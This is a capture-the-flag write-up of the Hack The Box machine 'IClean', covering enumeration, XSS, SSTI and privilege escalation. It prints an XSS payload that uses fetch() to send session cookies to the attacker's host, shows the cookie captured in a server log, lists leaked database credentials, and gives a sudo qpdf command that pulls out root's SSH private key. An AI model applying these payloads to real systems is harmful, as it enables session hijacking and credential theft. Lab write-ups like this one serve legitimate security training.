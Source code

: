```yaml
---
title: HTB - IClean
date: 2024-08-04 00:00:00 + 1000
categories: [Web App,CTF,HTB]
tags: [htb,WebExploitation, XSS, SSTI]
comments: false
---
```



The IClean is Medium-Rated HTB machine involved exploiting a web application vulnerable to XSS and SSTI, leading to a root shell. It involved grabbing a session cookie, then used the SSTI to gain a shell and found the database credentials, and the gained access as consuela, which allowed for privilege escalation


## Common Enumerations

### Nmap

Running the `nmap -p 22,80 -sC -sV 10.10.11.12 -oA recon/openport` - found two open ports

- SSH - 22
- HTTP - 80

```bash
$ nmap -p- 10.10.11.12 -oA recon/allport
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-01 19:44 AEST
Nmap scan report for 10.10.11.12
Host is up (0.0044s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 4.57 seconds

$ nmap -p 22,80 -sC -sV 10.10.11.12 -oA recon/openport
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-01 19:46 AEST
Nmap scan report for 10.10.11.12
Host is up (0.0058s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.93 seconds
```

## Website (port 80)

10.10.11.12 - redirect to `http://capiclean.htb/`. Which I have added to the `/etc/hosts`

![img](/assets/img/IClean/1.webp)

Gobuster found a few interesting endpoints

```bash
$ gobuster dir -u 'http://capiclean.htb/' -w '/usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt' -o recon/gobuster

===============================================================                                                                                   
Starting gobuster in directory enumeration mode                                                                                                   
===============================================================                                                                                   
/logout               (Status: 302) [Size: 189] [--> /]
/login                (Status: 200) [Size: 2106]
/about                (Status: 200) [Size: 5267]
/services             (Status: 200) [Size: 8592]
/dashboard            (Status: 302) [Size: 189] [--> /]
/team                 (Status: 200) [Size: 8109]
/quote                (Status: 200) [Size: 2237]
/server-status        (Status: 403) [Size: 278]
/choose               (Status: 200) [Size: 6084]
Progress: 23895 / 30001 (79.65%)[ERROR] parse "http://capiclean.htb/error\x1f_log": net/url: invalid control character in URL
Progress: 30000 / 30001 (100.00%)
```

The `/quote` endpoint looked promising

![img](/assets/img/IClean/2.webp)

### XSS via Service parameter

I created a XSS payload using an `<img>` tag with an `onerror` handler

```js
<img src=x onerror=fetch("http://10.10.14.8:1337/"+document.cookie);>
```

Started a simple HTTP server on port 1337 to catch the cookie

```bash
$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.11.12 - - [01/May/2024 21:04:32] code 404, message File not found
10.10.11.12 - - [01/May/2024 21:04:32] "GET /session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZjIhgA.IPjjisRtO1-Abm44368_wa-H4iY HTTP/1.1" 404 -
```

It worked! I had the session cookie

![img](/assets/img/IClean/3.webp)

### SSTI via /QRGenerator

Next, I checked the `/QRGenerator` endpoint. This endpoint seemed vulnerable via `qr_link` parameter. I tried a few things, and after a bit of experimentation, I found it was vulnerable to Server-Side Template Injection (SSTI)

![img](/assets/img/IClean/4.webp)

Using the below payload - [More Info](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/?source=post_page-----cfc46f351353--------------------------------). I was able to execute commands and got the shell

![img](/assets/img/IClean/12.webp)


## Shell as www-data

Now I had a shell, I needed to find a way to escalate my privileges. I took a look at the `app.py` file, where I found the database credentials

```python
# Database Configuration

db_config = {                                                                                                                             
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}

```

With these credentials, I logged into the MySQL

```bash
mysql -h 127.0.0.1 -u iclean -p pxCsmnGLckUb
```

I found a user called `consuela` with the password "simple and clean". I used this information to get a shell as `consuela`

![img](/assets/img/IClean/5.webp)

## Shell as consuela

With a shell as `consuela`, I grep the `user.txt`

```
c0116968....
```

I used the `sudo -l` to check for any available `sudo` commands.

![img](/assets/img/IClean/8.webp)

## Root SSH

I found a way to escalate my privileges using the `qpdf`

```bash
sudo /usr/bin/qpdf --empty /tmp/id.txt --qdf --add-attachment /root/.ssh/id_rsa --
```

root.txt

```bash
eb3c0a59...
```


